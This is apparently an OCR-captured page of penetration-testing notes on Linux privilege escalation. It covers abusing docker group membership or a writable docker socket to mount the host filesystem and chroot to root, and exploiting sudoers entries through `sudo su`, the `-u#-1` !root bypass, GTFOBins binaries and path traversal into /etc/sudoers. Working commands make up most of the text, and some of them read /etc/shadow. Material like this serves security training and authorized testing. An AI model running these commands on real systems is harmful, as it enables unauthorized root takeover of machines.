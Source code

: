 #### _Identify exploitable group memberships:_
- 1\. Identify the groups the current user is part of: `id`
- 2\. Check if the group may allow for privesc\. 

#### _Docker Group:_
If the current user is in the docker group or docker\.socks is writeable it is possible to mount a host partition inside the container to get root privileges\.
- 1\. Enumerate the docker instance for vulnerbailities: 
	- Automated enumeation: upload deepce\.sh to target host and run \([deepce](https://github.com/stealthcopter/deepce.git)\): `./deelce.sh `
	- Manual enumeation:
		- List available images \(docker images are read\-only templates used to build containers\): `docker images`
		- List containers \(containers are deployed instances created from image templates\): `docker container ls`
		- List running and stopped containers: `docker ps -a`
		- Get info of the container: `docker inspect <containerid>`
		- Get shell inside image \(this will start a container\): `docker run -i -t <image name (e.g. ubuntu)>:<tag name (e.g. latest)> /bin/bash`
		- Get shell inside a container: `docker exec -it <containerid> /bin/sh`
- 2\. Exploit vulnerable docker configuration:
	- Docker group: 
		- 1\. List images: `docker images`
		- 2\. Mount host partition to image: `docker run -v /:/mnt --rm -it <image name>:<tag name> chroot /mnt sh`
	- Writeable socks: 
		- 1\. Search for the socket \(usual location "/run/docker.sock"): `find / -name docker.sock 2>/dev/null`
		- 2\. List images: `docker images`
		- 3\. Mount host partition to image \(if docker socket is in an unusual place use "\-H unix:///path/to/docker\.sock"\): `docker run -it -v /:/mnt/ <image name>:<tag name> chroot /mnt/ bash`

### __Abuse execution permissions:__ 
#### _Sudoers privilege abuse:_
In the /etc/sudoers file, extra permissions can be assigned to a specific user that may run specific or all commands with root privileges\. 
- 1\. List services that current user can run with sudo privileges:
	- `sudo -l`
	- `cat /etc/sudoers`
- 2\. Exploit privileges:
	- NOPASSWD: If “\(ALL:ALL\) ALL” and “\(ALL\) NOPASSWD: ALL”  privileges are set, game on\! Current user has sudo rights and no password is needed: `sudo su`
	- \!root: If result looks like “\(ALL, \!root\) /bin/bash” use the following command to get root shell: `sudo \u#-1 /bin/bash`
	- Specific service: If sudo privilege is set for a specific service: 
		- 1\. Determine if it is a known service or custom program/script:
			- If it is a known service,  check [GTFObin](https://gtfobins.github.io/) if the service can be used for privesc \(e\.g\. nmap, vi, less, find\)
			- If it a custom program/script, enumerate what it does and find a possible way to get command execution \(e\.g\. dangerous programming functionalities, etc\.\)
		- 2\. Run vulnerable service/program with sudo rights:
			- As current user: `sudo <path/to/service> `
			- As other user:` sudo -u <username> <path/to/service>`
	- Service is an editor: 
		- If user is only allowed to use the editor against a specific file but the path contains \* \(e\.g\. “\(root\) NOPASSWD: sudoedit /home/\*/\*/file\.txt”\), make sure that the \* are all filled in with an existing directory\. Try to modify \(via symlink attack\) and/or read sensitive files \(e\.g\. /etc/shadow\)\.
		- If user is only allowed to use the editor within a specific directory \(e\.g\. \(root\) NOPASSWD: /bin/nano /var/opt/\*\)? 
			- 1\. Try path traversal technique to modify sudoeurs and add root privileges to current user account: `sudo </path/to/editor>/../../etc/sudoers`